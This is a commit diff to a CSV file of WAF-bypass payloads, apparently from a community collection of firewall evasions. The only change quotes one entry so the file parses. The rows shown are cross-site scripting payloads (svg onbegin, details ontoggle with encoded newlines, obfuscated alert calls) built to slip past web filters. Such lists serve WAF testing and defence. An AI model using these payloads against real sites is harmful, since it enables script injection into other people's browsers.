

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
fix

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -315,3 +315,3 @@ https://waf-bypass.com/,<marquee+loop=1+width=0+onfinish='new+Function`al\ert\`1
 https://waf-bypass.com/,<svg><circle><set onbegin=prompt(1) attributename=fill>,xss
-https://waf-bypass.com/,<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>,xss
+https://waf-bypass.com/,"<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>",xss
 https://waf-bypass.com/,%3balert`1`%3b,xss
```
